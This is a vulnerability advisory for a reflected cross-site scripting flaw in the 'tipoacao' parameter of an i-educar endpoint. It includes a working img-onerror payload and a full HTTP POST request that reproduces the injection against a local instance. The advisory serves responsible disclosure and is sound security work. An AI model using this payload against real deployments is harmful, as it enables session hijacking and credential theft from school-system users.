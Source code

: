 Cross-Site Scripting (XSS) Reflected endpoint `/module/Configuracao/ConfiguracaoMovimentoGeral` parameter `tipoacao`

---

## Summary

A Reflected Cross-Site Scripting (XSS) vulnerability was identified in the `/module/Configuracao/ConfiguracaoMovimentoGeral` endpoint of the _i-educar_ application. This vulnerability allows attackers to inject malicious scripts into the `tipoacao` parameter. The payload is reflected in the application’s HTTP response without proper sanitization, leading to immediate execution in the victim’s browser.

---

## Details

**Vulnerable Endpoint:** `POST /module/Configuracao/ConfiguracaoMovimentoGeral`  
**Parameter:** `tipoacao`

The application fails to properly validate and sanitize user input in the `tipoacao` parameter. An attacker can craft a malicious URL containing a JavaScript payload, which is reflected back in the server’s response and executed when a victim accesses the crafted link.

---

## PoC

**Payload:**

`%22%3E%3Cimg%20src=x%20onerror=alert('XSS-PoC4')%3E`

### Steps to Reproduce:

1. Log in to the _i-educar_ application.
    
2. Make a request using Caido similar to the one below.

```
POST /module/Configuracao/ConfiguracaoMovimentoGeral HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br, zstd
Content-Type: application/x-www-form-urlencoded
Content-Length: 15
Origin: http://localhost
Connection: keep-alive
Referer: http://localhost/module/Configuracao/ConfiguracaoMovimentoGeral
Cookie: grav-admin-flexpages=eyJyb3V0ZSI6Ii9ob21lIiwiZmlsdGVycyI6e319; grav-tabs-state={%22tab--f0e041eed24f87f2b6b02fd6924d0a08%22:%22data.languages%22%2C%22tab-flex-pages-e838602f51515c83bca06a8ae758ce52%22:%22data.security%22%2C%22tab-flex-pages-b6676b27f5cdf6b6c22f8e18da4259a0%22:%22data.advanced%22%2C%22tab-flex-pages-raw-8f0a83a672754f7823714134334b1de8%22:%22data.content%22%2C%22tab-flex-pages-dc26c564cb2116d77bda5fff24ba90dc%22:%22data.security%22%2C%22tab-flex_conf-user_groups-accounts-02f0e9f68f41a0648ed530f80bd72c06%22:%22data.cache%22%2C%22tab-flex-pages-raw-9a0364b9e99bb480dd25e1f0284c8555%22:%22data.content%22%2C%22tab-flex-pages-e91e6348157868de9dd8b25c81aebfb9%22:%22data.security%22%2C%22tab--8cc45760590da203c5fc3568ecbabd66%22:%22data.routes%22%2C%22tab--7a2ac3477f8ad14aa750831441325a16%22:%22data.facebook%22}; i_educar_session=zwaLFqQcylntJZp9KejOuTI6ts3wcjebWqYM2vcd
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i

tipoacao=Editar%22%3E%3Cimg%20src=x%20onerror=alert('XSS-PoC4')%3E
```

![[Pasted image 20250817003111.png]]

The result:

![[Pasted image 20250817003156.png]]


---

## Impact

Reflected XSS vulnerabilities can lead to severe consequences, including:

- **Session hijacking:** Theft of cookies or authentication tokens
    
- **Credential theft:** Capturing sensitive user credentials via injected scripts
    
- **Malware delivery:** Redirecting victims to malicious downloads or exploit pages
    
- **Phishing attacks:** Displaying deceptive forms or content to steal user data
    
- **Reputation damage:** Exploiting trust between the application and its users
    
- **Client-side manipulation:** Altering the application’s content and behavior dynamically


## Discoverer

[Marcelo Queiroz](www.linkedin.com/in/marceloqueirozjr)

by [CVE-Hunters](https://github.com/Sec-Dojo-Cyber-House/cve-hunters)